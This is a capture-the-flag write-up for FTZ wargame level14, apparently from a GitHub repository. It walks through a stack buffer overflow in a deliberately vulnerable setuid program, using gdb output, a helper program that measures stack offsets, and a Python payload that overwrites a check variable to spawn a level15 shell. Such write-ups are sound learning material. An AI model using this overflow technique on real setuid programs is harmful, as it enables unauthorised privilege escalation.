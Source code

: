 # Level14

## This level's goal
- Memory routine

***

```
[level14@ftz level14]$ ls -l
-rwsr-x---    1 level15  level14     13801 Dec 10  2002 attackme
-rw-r-----    1 root     level14       346 Dec 10  2002 hint

[level14@ftz level14]$ cat hint 

레벨14 이후로는 mainsource의 문제를 그대로 가져왔습니다.
(After level14, brought just main source's problem.)
버퍼 오버플로우, 포맷스트링을 학습하는데는 이 문제들이 최고의 효과를 가져다줍니다.
(those problems are the best effect for learning formoat strings and buffer overflow)

#include <stdio.h>
#include <unistd.h>

main()
{ 
  int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}

[level14@ftz level14]$ gdb -q attackme
(gdb) disass main
0x08048493 <main+3>:    sub    $0x38,%esp
0x080484ad <main+29>:   cmpl   $0xdeadbeef,0xfffffff0(%ebp)

(gdb) break *0x080484ad
(gdb) run
Starting program: /home/level14/tmp/attackme
AAAA

(gdb) x/16x $esp
0xbfffe430:     0x41414141      0x4213000a      0xbfffe458      0x08048471
0xbfffe440:     0x08049560      0x08049668      0x4001582c      0x080483be
0xbfffe450:     0x08048308      0x42130a14      0xbfffe468      0x0804831e
0xbfffe460:     0x4200af84      0x42130a14      0xbfffe488      0x42015574
```

0x38 means 56 bytes, and I need to get more information of memory size.

```
[level14@ftz tmp]$ cat distance.c

#include <stdio.h>
#include <unistd.h>

int main()
{
        int crap;
        int check;
        char buf[20];

        fgets(buf,45,stdin);
        if(check == 0xdeadbeef)
        {
                setreuid(3095,3095);
                system("/bin/sh");
        }
        printf("Input is : %s\n &buf : %p\n &check: %p\n &crap : %p\n", buf, buf, &check, &crap);
}

[level14@ftz tmp]$ gcc distance.c -o distance
[level14@ftz tmp]$ ./distance
AAAA
Input is : AAAA

&buf :   0xbffff8a0
&check:  0xbffff8c8
&crap :  0xbffff8cc
```

As above, I can understand the memory size.

Between buff and check : 0xbffff8c8 - 0xbffff8a0 = 0x00000028 (40 bytes)   
Between chek and crap  : 0xbffff8cc - 0xbffff8c8 = 0x00000004 (4bytes)

char buf(20 bytes) + dummy(20bytes) + check(4bytes) + crap(4bytes) + dummy(8bytes) + SFP(4bytes) + RET(4bytes)

```
int check;
	if (check==0xdeadbeef)
	{
	     setreuid(3095,3095);
	     system("/bin/sh");
	}
```

In the hint, you need to input 40bytes dummy strings and then 0xdeadbeef in the int check, then you will get sh.

```
[level14@ftz level14]$ (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme

id
uid=3095(level15) gid=3094(level14) groups=3094(level14)

my-pass
Level15 Password is "guess what".
```
